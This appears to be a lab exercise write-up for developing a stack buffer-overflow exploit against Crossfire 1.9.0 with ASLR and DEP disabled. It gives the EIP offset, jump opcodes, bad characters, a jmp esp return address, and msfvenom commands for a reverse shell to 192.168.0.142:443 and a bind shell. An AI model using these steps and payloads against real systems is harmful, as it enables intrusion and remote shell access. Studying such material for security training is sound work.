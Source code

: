 # CrossFile exploit development

## Exploit background

Version: Crossfire 1.90, without ASLR and DEP

Debugger use: edb (Evan's debugger) 0.9.21

OS: Linux kali 4.12.0-kali2-686

## Development steps

1. Start debugger using command `edb --run /usr/games/crossfire/bin/crossfire`

2. Use poc.py to test the buffer overflow exploit.

    ![hashdump](../../images/crossfire_poc.png)

3. Use pattern to locate where EIP is

    ```
    locate pattern_create
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 4379

    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l 4379 -q 46367046
    [*] Exact match at offset 4368
    ```

    ![hashdump](../../images/crossfire_bbb.png)

3. Observer and find that EAX is pointing to the begining of 'setup sound AAA....', while ESP is pointing to 'CCCCCC...'

4. The shellcode will execute code in 'CCC...' section first, then jump to 'AAA...' section.

    ```
    root@kali:~/Desktop/exercise/8_linux_bufferoverflow# /usr/share/metasploit-framework/tools/exploit/nasm_shell.rb
    nasm > add eax, 12
    00000000  83C00C            add eax,byte +0xc
    nasm > jmp eax
    00000000  FFE0              jmp eax
    ```

    code in section 'CCC...' : \x83\xC0\x0C\xff\xe0

5. Bad characters checker, badchars is \x00\0x20 only, see code at bad_chars.py

    

6. Use Plugin -> OpcodeSearcher -> Opcode search, search for `jmp esp`, You must halt the debugger or no result is returned.

    * Select /usr/games/crossfire/bin/crossfire r-x section (Start: 08048000, End: 08144000)

    * Result: 08134597

    * Beware that 08134596 is ff f3 e4 which is not I want, should be ff e4
    
    ![hashdump](../../images/crossfire_eip.png)

7. update the script to replace B with address  \x97\x45\x13\x08, set breakpoint at 0x08134597


8. run exploit_poc.py, the breakpoint trigger at 0x08134597 (stop the program first) and run to section 'CCC...' and later 'AAA...'

    ![hashdump](../../images/crossfire_aaa.png)

12. Now create a payload and replace the CCC section

    * reverse shell
    ```
    msfvenom -p linux/x86/shell_reverse_tcp LHOST=192.168.0.142 LPORT=443 EXITFUNC=thread -f c -e x86/shikata_ga_nai -b "\x00\x0a\x0d\x20"
    ```

    * bind shell
    ```
    msfvenom -p linux/x86/shell_bind_tcp LPORT=4444 -f c -e x86/shikata_ga_nai -b "\x00\x20\x0a\x0d"
    ```

13. Create and run exploit.py, and a reverse shell or bind shell is spawn.


